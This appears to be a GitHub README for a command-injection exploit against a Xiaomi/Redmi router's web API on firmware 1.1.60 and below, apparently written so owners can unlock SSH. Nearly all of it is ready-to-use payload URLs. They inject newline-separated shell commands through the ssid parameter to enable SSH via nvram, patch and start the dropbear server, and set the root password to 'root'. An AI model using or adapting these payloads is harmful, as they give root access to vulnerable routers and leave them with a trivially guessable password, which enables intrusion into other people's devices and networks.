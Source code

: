 ## Usage

1. Make sure your firmware version is 1.1.60 or below.
2. Login to get  `TOKEN`.
3. Edit payload url to execute commands.
4. SSH is enabled. You can login with username `root` and password `root`.

## Payload

Version: Stable version 1.1.60 and below.

```
http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0anvram%20set%20ssh_en=1%0anvram%20commit%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0aecho%20sed%20-i%20's/channel=.*/channel="debug"/g'%20/etc/init.d/dropbear%20>%20/tmp/r.sh%0ash%20/tmp/r.sh%0arm%20/tmp/r.sh%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0a/etc/init.d/dropbear%20start%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0a/etc/init.d/dropbear%20enable%0a

http://192.168.31.1/cgi-bin/luci/;stok=TOKEN/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%0aecho%20echo%20-e%20"root\nroot"%20|%20passwd%20root%20>%20/tmp/pass.sh%0ash%20/tmp/pass.sh%0arm%20/tmp/pass.sh%0a
```

## Reference

* [解锁京东云 Redmi AX5 ssh  (m1ku.in)](https://m1ku.in/archives/783)
* https://github.com/NyaMisty/luadec_miwifi
* [[Ax5京东云\]1.1.47固件下载地址 - 京东云无线宝 - 恩山无线论坛 - Powered by Discuz! (right.com.cn)](https://www.right.com.cn/forum/thread-4128465-1-1.html)
